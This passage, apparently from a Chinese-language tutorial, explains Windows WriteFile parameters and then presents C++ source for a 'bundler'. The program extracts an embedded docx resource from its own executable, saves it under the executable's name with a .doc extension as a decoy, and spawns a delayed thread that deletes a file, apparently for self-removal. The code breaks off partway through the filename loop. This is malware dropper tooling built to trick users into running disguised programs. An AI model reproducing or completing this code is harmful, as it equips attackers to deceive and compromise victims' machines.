 
hFile 文件句柄

lpBuffer 指向要写入文件的数据的缓冲区的指针

nNumberOfBytesToWrite 要写入的大小

lpNumberOfBytesWritten 实际写入的大小

lpOverlapped 如果使用FILE_FLAG_OVERLAPPED打开hFile参数， 则需要指向OVERLAPPED结构的指针，否则此参数可以为
NULL

返回值为BOOL类型写入成功和写入失败

# 0x03 代码实现

    
    
    #include <iostream>  
    #include <windows.h>  
    #include "Bundled.h"  
      
    DWORD64 WINAPI threadProc(LPVOID lParam) {  
      
        INT RET = 20000;  
        for (size_t i = 0; i < 20000; i++)  
        {  
            RET = RET - 1;  
        }  
        //循环一下起延时作用，防止线程创建了文件还没有关系，这样删除就失败了  
        wDeleteFileA kDeleteFileA;  
        DeleteStruct* DS = (DeleteStruct*)lParam;  
        kDeleteFileA = (wDeleteFileA)DS->dwDeleteFile;  
        kDeleteFileA(DS->dwDeleteFile_param_1);  
        //删除文件  
        return RET;  
    }  
      
    int main(int argc, char* argv[])  
    {  
        CHAR PathFileName[MAX_PATH] = { 0 };  
        CHAR FileName[MAX_PATH] = { 0 };  
      
        HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(101), "docx");  
        //得到资源文件HRSRC句柄  
        HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);  
        //得到资源文件ResourceGlobal句柄  
        DWORD FileSize = SizeofResource(NULL, Resource);  
        //得到资源文件的大小  
        LPVOID PFILE = LockResource(ResourceGlobal);  
        //得到指向资源文件内容的指针  
        GetModuleFileNameA(NULL, PathFileName, MAX_PATH);  
        //当前进程的路径和名称  
        strcpy_s(FileName, strrchr(PathFileName, '\\')+1);  
        /*  
        strrchr得到第二个参数最后出现的位置  
        d:\\xxxxx\\xxxxxx\\xxxx.exe在执行后得到\\xxxx.exe  
        所以需要+1把\\去掉  
        最后得到了完整的文件名  
        用strcpy_s把文件名复制到FileName中  
        */  
        for (size_t i = 0; i < MAX_PATH; i++)  
        {  
            if(FileName[i] == '.')  
            {  
                FileName[i + 1] = 'd';  
                FileName[i + 2] = 'o';  
                FileName[i + 3] = 'c';  